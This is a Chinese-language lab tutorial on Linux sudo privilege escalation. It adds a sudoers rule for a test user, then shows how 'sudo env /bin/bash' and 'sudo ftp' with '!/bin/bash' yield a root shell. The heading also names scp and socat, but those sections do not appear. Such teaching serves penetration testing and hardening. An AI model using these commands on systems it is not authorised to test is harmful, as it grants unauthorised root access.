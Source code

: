 <a name="X4NtS"></a>
## 3.3 Env FTP Scp Socat提权
<a name="wvfnb"></a>
### 1.环境配置
<a name="AMsSv"></a>
#### 1.编辑sudo配置文件
```bash
vim /etc/sudoers

test ALL=(root) NOPASSWD: /usr/bin/env,/usr/bin/ftp,/usr/bin/scp,/usr/bin/socat
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657812909970-1eb01872-fd40-4c68-bf3b-e6068e8a2410.png#averageHue=%232e0a23&clientId=u650b7d3f-c541-4&from=paste&height=99&id=udad6dfd8&originHeight=99&originWidth=743&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13514&status=done&style=none&taskId=u1b5c8cb7-997f-40d3-8a7e-ad1df6a6e39&title=&width=743)
<a name="b6d3f"></a>
#### 2.检测sudo权限
```bash
sudo -l
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657813057251-c161fc37-ec6b-4c3e-95cb-edd5d60cdece.png#averageHue=%232d0923&clientId=u650b7d3f-c541-4&from=paste&height=134&id=uf10499d9&originHeight=134&originWidth=1061&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24392&status=done&style=none&taskId=uaea5ca97-8be9-40b3-868d-dd21adc0c45&title=&width=1061)

<a name="JGzC3"></a>
### 2.Env提权
<a name="tv6D1"></a>
#### 1.查看sudo权限
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657812971476-1a926924-48c6-4cd2-8c3a-7ce4935f6560.png#averageHue=%232d0922&clientId=u650b7d3f-c541-4&from=paste&height=134&id=nZScR&originHeight=134&originWidth=1060&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25054&status=done&style=none&taskId=ub41b3d90-2dc6-45e4-a9f9-0528b895a80&title=&width=1060)

<a name="AUsWJ"></a>
#### 2.提权方法
```bash
sudo env /bin/bash
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657813170350-5b13a265-0025-4569-b1e8-d110e2f59e04.png#averageHue=%232d0923&clientId=u650b7d3f-c541-4&from=paste&height=78&id=uda924b2a&originHeight=78&originWidth=365&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10162&status=done&style=none&taskId=u87c5f44e-7b99-4e4a-99db-77717e3bb3d&title=&width=365)

<a name="En8oG"></a>
### 3.FTP提权
<a name="Gmp1q"></a>
#### 1.查看sudo权限
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657813219688-cc4c820c-f3f2-4cbc-ab97-a9add8326a2d.png#averageHue=%232d0923&clientId=u650b7d3f-c541-4&from=paste&height=144&id=uc526580b&originHeight=144&originWidth=712&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24486&status=done&style=none&taskId=u694a5af9-9114-4f26-b3f5-c5cedc036b0&title=&width=712)
<a name="yRQDo"></a>
#### 2.提权方法
```bash
sudo ftp
```

输入`!/bin/bash`<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657813272843-af42fad2-749e-473a-8f25-d9547ebb9125.png#averageHue=%232d0923&clientId=u650b7d3f-c541-4&from=paste&height=97&id=ud8720db2&originHeight=97&originWidth=352&originalType=binary&ratio=1&rotation=0&showTitle=false&size=11669&status=done&style=none&taskId=u93fd159f-63ea-4628-91e5-eda1fb99741&title=&width=352)
